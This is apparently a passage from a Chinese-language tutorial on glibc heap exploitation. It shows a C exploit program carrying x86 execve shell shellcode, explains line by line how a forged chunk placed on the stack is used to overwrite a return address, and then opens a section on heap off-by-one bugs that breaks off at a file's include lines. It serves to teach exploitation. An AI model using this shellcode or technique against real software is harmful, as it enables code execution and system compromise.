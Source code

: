 ```
        "\xeb\x0e\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xb8\xfd\xff\xbf\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";

int main( void )
{
        int i;
        char * p;
        char argv1[54];
        char * argv[] = { VULNERABLE, argv1, NULL };

        strcpy(argv1,scode);

        /* Overwrite ptr1 in vuln with stack address - 0xbffffdf0. Overwrite local_age in vuln with chunk size - 0x30 */
        strcpy(argv1+48,"\xf0\xfd\xff\xbf\x30"); 

        argv[53] = '';

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
![@攻击后的栈空间](http://r.photo.store.qq.com/psb?/V13dixb24fK0LX/MPSZZ8CC4JLs5hEHcpA7PvIBRaxkMoft4G5BUiTmtGc!/r/dEQAAAAAAAAA)
那么返回地址是如何被覆写的呢？
Line[3]: BOF
- 在这里攻击者的输入argv[1]被拷贝到buffer 'name'当中。然而攻击者的输入比44大，变量的ptr1和local_age就会被栈地址和chunk大小给相应覆写
	- 栈地址(0xbffffdf0)：当第[5]行执行时glibc malloc就会被欺骗返回到这个地址上
	- chunk大小(0x30)：这个是用来在第[4]行被执行时用来欺骗glibc malloc的

Line[4]: 将stack region加入到glibc malloc的fast bin中
- free函数会触发_int_free() 现在既然栈溢出导致ptr1=0xbffffdf0（而并不是0x804aa08）。那么被覆写的ptr1就会被以参数的形式传给free() ’glibc malloc‘就会释放一片栈中的内存，这片内存的大小的空间将被释放，在ptr1-8+4处的数据就会被覆写为0x30，那么glibc malloc就会认为这里是fast chunk(48<64)并将这片被释放的chunk加到fast bin的最前端，也就是index 4的地方

Line[5]: 返回栈空间（加在第[4]行中）
- malloc 40bytes的请求就会由checked_request2size转化为可用的48字节。既然之前我们在bin list中插入了一个48字节的chunk，那么它就会被返回给用户。chunk本身没什么变化，但是栈空间却在第[4]行中被加入了进来

Line[6]: 覆写返回地址
- 将argv[1]拷到从0xbffffdf0开始的栈空间。argv[1]开头的16字节为：
	- \xeb\x0e — 即jmp $14
	- \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41 – Pad
	- \xb8\xfd\xff\xbf – 在栈中保存的返回地址就被这个值给覆盖。因此在fvuln被执行后，pc就会变成0xbffffdb8，这个地址保存了一个jmp $14的指令并且导向了shellcode

目前仍没有相关的protection
#### 基于堆的Off-By-One
重要点重述：由于每个用户的malloc申请，一片堆空间能够被分为许多个chunk。每个chunk都有自己的chunk头（也就是所说的malloc_chunk）。这个数据结构包括如下4个组成部分：（x86情况下header为 8 bytes / x64为 16 bytes）
- prev_size 如果前一个chunk被free了，这个变量保存前一个chunk的大小。否则这个变量保存前一个chunk的用户数据
- size 这个变量保存了这个chunk的大小，最后3个bit作为flag，分别表示：
	- PREV_INUSE(P)当前一个chunk被分配时，这个bit为1，否则为0
	- IS_MMAPED(M)当这个chunk是被mmap的，这个bit为1
	- NON_MAN_ARENA(N)当这个chunk属于main arena时，这个bit为1
- fd指向相同bin中的下一个chunk
- bk指向相同bin中的前一个chunk
```
//consolidate_forward.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
```